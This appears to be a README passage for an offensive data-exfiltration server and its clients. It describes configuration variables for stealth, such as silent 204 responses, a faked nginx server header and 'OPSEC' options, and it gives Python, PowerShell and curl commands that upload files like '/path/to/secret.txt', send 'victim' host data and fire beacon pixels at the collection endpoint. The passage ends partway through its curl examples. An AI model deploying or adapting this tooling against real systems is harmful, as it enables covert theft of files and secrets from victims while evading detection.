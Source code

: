 ### Environment Variables

| Variable | Default | Description |
|----------|---------|-------------|
| `EXFIL_TOKEN` | - | Bearer token for authentication |
| `MAX_CONTENT_LENGTH_MB` | `50` | Maximum upload size in MB |
| `EXFIL_SILENT` | `0` | Return 204 for uploads/exfil |
| `EXFIL_PATH` | - | Alternative exfil endpoint path |
| `EXFIL_SERVER_HEADER` | `nginx` | Server header masquerading |
| `EXFIL_SSL_CERT` | - | Path to SSL certificate |
| `EXFIL_SSL_KEY` | - | Path to SSL private key |

### Advanced OPSEC Controls

<details><summary>🔍 Click to expand stealth options</summary></details>

## 💻 Client Examples

### Python Client
```bash
# JSON exfiltration
python client/exfil_client.py https://127.0.0.1:8080 json '{"host":"victim"}' \
  --token "$EXFIL_TOKEN" --insecure

# File upload
python client/exfil_client.py https://127.0.0.1:8080 file /path/to/secret.txt \
  --token "$EXFIL_TOKEN" --insecure

# GET pixel beacon
python client/exfil_client.py https://127.0.0.1:8080 get "beacon-data" \
  --get-path /pixel.gif --token "$EXFIL_TOKEN" --insecure
```

### PowerShell Client
```powershell
# JSON exfiltration
pwsh client/ps_exfil.ps1 -Base https://127.0.0.1:8080 -Mode json -Payload '{"x":1}' -Token $env:EXFIL_TOKEN -Insecure

# File upload
pwsh client/ps_exfil.ps1 -Base https://127.0.0.1:8080 -Mode file -Payload C:\path\to\file.txt -Token $env:EXFIL_TOKEN -Insecure
```

### cURL Examples
```bash
# Upload file
curl -H "Authorization: Bearer $EXFIL_TOKEN" \
     -F "file=@/path/to/file" \
     https://localhost:8080/upload

# Exfiltrate JSON data
curl -H "Authorization: Bearer $EXFIL_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"secrets":["data1","data2"]}' \
     https://localhost:8080/exfil

# List captured files
```